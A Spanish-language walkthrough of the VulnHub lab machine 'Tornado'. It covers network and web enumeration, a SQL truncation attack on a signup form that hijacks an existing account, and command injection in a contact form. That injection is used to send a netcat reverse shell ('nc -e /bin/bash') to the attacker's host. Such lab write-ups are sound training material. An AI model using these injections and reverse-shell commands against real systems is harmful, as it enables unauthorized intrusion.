---
# Tornado - VulnHub

**Tornado** es una máquina vulnerable tipo *boot2root* diseñada para entrenar en la identificación y explotación de fallos comunes en aplicaciones web y sistemas Linux. Esta máquina simula un entorno realista en el que debemos realizar una cadena de explotación que abarca desde vulnerabilidades web como el truncado SQL y la inclusión local de archivos (LFI), hasta técnicas de escalada de privilegios en el sistema operativo.

A diferencia de otros entornos más lineales, **Tornado** exige al atacante encadenar varias vulnerabilidades para alcanzar el objetivo final. Durante su resolución, pondremos en práctica conceptos relacionados con el control de usuarios mediante el mal manejo de entradas, el uso inseguro de comandos del sistema, y la configuración incorrecta de permisos en herramientas del entorno Linux.

Es especialmente útil para afianzar habilidades relacionadas con:

- [Ataque de Truncado SQL](../../../OWASP%20TOP%2010/SQL%20Truncation/Ataque%20de%20Truncado%20SQL.md)
- [Local File Inclusion](../../../OWASP%20TOP%2010/LFI/Local%20File%20Inclusion.md)
- [LinEnum](../../../Técnicas/Escalada%20de%20privilegios/Recursos%20escalada/LinEnum.md)

El entorno es ideal para quienes ya dominan lo básico de CTFs web y buscan enfrentarse a un flujo más completo y realista de intrusión.

---
## Instalación y configuración de Tornado IA

Descargamos la máquina virtual desde el siguiente enlace:

- **Máquina Tornado de Vulnhub**: [https://www.vulnhub.com/entry/ia-tornado,639/](https://www.vulnhub.com/entry/ia-tornado,639/)

Una vez descargado, descomprimimos el archivo .ova que tenemos como si fuera un .zip. Nos quedarán 3 archivos



Desde el terminal de Windows Símbolo del Sistema vamos a la ruta `C:\PROGRA~2\VMware\VMware Workstation>` y ejecutamos el siguiente comando para configurar el archivo de la máquina virtual

```bash
C:\PROGRA~2\VMware\VMware Workstation>.\vmware-vdiskmanager.exe -r "C:\Users\danie\Maquinas vulnerables\tornado\tornado-disk001.vmdk" -t 0 "C:\Users\danie\Maquinas vulnerables\tornado\tornado_final.vmdk"
```

Resultado:

```bash
Creating disk 'C:\Users\danie\Maquinas vulnerables\tornado\tornado_final.vmdk'
  Convert: 100% done.
Virtual disk conversion successful.
```

Realizada esta acción seguir con la instalación de Tornado IA como se indica en [Configuración Tornado IA](Configuración%20Tornado%20IA.md)

Acción:

```bash
arp-scan -I ens33 --localnet --ignoredups
```

Resultado:

```bash
Interface: ens33, type: EN10MB, MAC: 00:0c:29:ab:85:69, IPv4: 192.168.1.66
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1	cc:00:f1:c0:53:c0	Sagemcom Broadband SAS
192.168.1.38	94:bb:43:12:76:2c	(Unknown)
192.168.1.13	be:3c:8d:1e:48:64	(Unknown: locally administered)
192.168.1.44	bc:83:85:8f:bd:83	Microsoft Corporation
192.168.1.63	00:0c:29:0e:a6:f0	VMware, Inc.
192.168.1.12	02:8f:7d:75:a5:4b (cc:00:f1:c0:53:c0)	(Unknown: locally administered)
192.168.1.14	b6:f4:17:a4:60:70 (cc:00:f1:c0:53:c0)	(Unknown: locally administered)

7 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.963 seconds (130.41 hosts/sec). 7 responded
```

Explicación: con esto confirmamos que Tornado IA tiene interfaz de red, puesto que vemos en `192.168.1.63 VMware` 

---
## Enumeración

Acción:

```bash
nmap -pp --open -sS -n -Pn --min-rate 5000 -vvv 192.168.1.63 -oG allPorts
```

Resultado: [[Herramientas definidas#extractPorts) 

```bash
[*] Extracting information...

	[*] IP Address: 192.168.1.63
	[*] Open ports: 22,80
```

Acción:

```bash
nmap -p22,80 -sCV 192.168.1.63 -oN targeted
```

Resultado:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 0f:57:0d:60:31:4a:fd:2b:db:3e:9e:2f:63:2e:35:df (RSA)
|   256 00:9a:c8:d3:ba:1b:47:b2:48:a8:88:24:9f:fe:33:cc (ECDSA)
|_  256 6d:af:db:21:25:ee:b0:a6:7d:05:f3:06:f0:65:ff:dc (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:0E:A6:F0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Acción:

```bash
whatweb http://192.168.1.63
```

Resultado:

```bash
http://192.168.1.63 [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.1.63], Title[Apache2 Debian Default Page: It works]
```

Explicación:


Acción:

```bash
gobuster dir -u http://192.168.1.63 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

Resultado:

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 313] [--> http://192.168.1.63/manual/]
/javascript           (Status: 301) [Size: 317] [--> http://192.168.1.63/javascript/]
/bluesky              (Status: 301) [Size: 314] [--> http://192.168.1.63/bluesky/]
/server-status        (Status: 403) [Size: 277]
```

Acción:

```bash
gobuster dir -u http://192.168.1.63/bluesky -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php
```

Resultado:

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/contact.php          (Status: 302) [Size: 2034] [--> login.php]
/login.php            (Status: 200) [Size: 824]
/signup.php           (Status: 200) [Size: 825]
/css                  (Status: 301) [Size: 318] [--> http://192.168.1.63/bluesky/css/]
/imgs                 (Status: 301) [Size: 319] [--> http://192.168.1.63/bluesky/imgs/]
/js                   (Status: 301) [Size: 317] [--> http://192.168.1.63/bluesky/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/about.php            (Status: 302) [Size: 2024] [--> login.php]
/dashboard.php        (Status: 302) [Size: 2024] [--> login.php]
/port.php             (Status: 302) [Size: 2098] [--> login.php]
/.php                 (Status: 403) [Size: 277]
```





Explicación: tras la enumeración damos con una web alojada en `http://192.168.1.63/bluesky` y un panel de login en `http://192.168.1.63/bluesky/login.php` 

**Nota:** en este punto se podrían probar [[SQLi), [[Inyecciones XPath), [[NoSQLi). Pero como veremos ahora, el vector va por otros rumbos

Acción otro de los directorios encontrados es un panel de registro, aquí podemos registrar un usuario que posteriormente loguearemos con éxito. Además, tiene un indicador que es que no permite como se ve en el `Inspector` al usar  `Ctrl+SHIF+c` poner más de 13 caracteres. Esto ya nos da alguna pista de que pueda acontecerse un [[Ataque de Truncado SQL) 



Al registrarnos y loguearnos, vemos que accedemos a un nuevo panel, el cual ya vimos con gobuster pero antes no teníamos permisos para acceder al contenido






Explicación: encontramos en el código fuente de la ruta mostrada una pista `<!-- /home/tornado/imp.txt -->`

Acción:

```url
http://192.168.1.63/~tornado/imp.txt 
```

Resultado:

```html
ceo@tornado
cto@tornado
manager@tornado
hr@tornado
lfi@tornado
admin@tornado
jacob@tornado
it@tornado
sales@tornado
```



Explicación: con el comando `~` podemos usarlo como alias de `/home/` por lo que si tiene capacidad de 'Directory listing' podemos llegar a extraer información, como vemos que nos muestra una lista de direcciones de correo

---
## Explotación

Como prueba de concepto, usando alguno de los correos que hemos encontrado. Vamos al panel de `signup` y lo introducimos con cualquier contraseña. Nos dice que el usuario ya existe.



Como este panel tiene una validación del lado del cliente y es algo que podemos cambiar lo hacemos poniendo por ejemplo 50



Ahora probamos el [[Ataque de Truncado SQL) que consiste para este caso en poner varios espacios después del correo y poner un carácter. De este modo es un usuario distinto que guardará en su base de datos pero como en realidad filtra por 13 caracteres lo que hará es modificar la contraseña del usuario existente. Esto es un **Ataque de Truncado SQL**



Vemos que ahora con las credenciales cambiadas podemos loguearnos como el usuario elegido, en este caso `jacos@tornado`



---

Ahora desde la pestaña `contact` tenemos un recurso que si lo trasteamos vemos que responde a una inyección de comando pues la página tarda 5 segundos en responder con un `test; sleep 5`



Podemos entonces enviarnos una **Reverse shell**  a nuestra máquina atacante

Acción: en nuestra terminal atacante

```bash
nc -lvnp 443
```

Acción: en el panel de `contact`

```bash
test; nc -e /bin/bash 192.168.1.66 443
```

Resultado:

```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.63] 46854
whoami
www-data
```

Explicación: ganamos acceso a la máquina víctima. Para un tratamiento de la TTY seguir este apartado: [[TTY Interactiva)

---
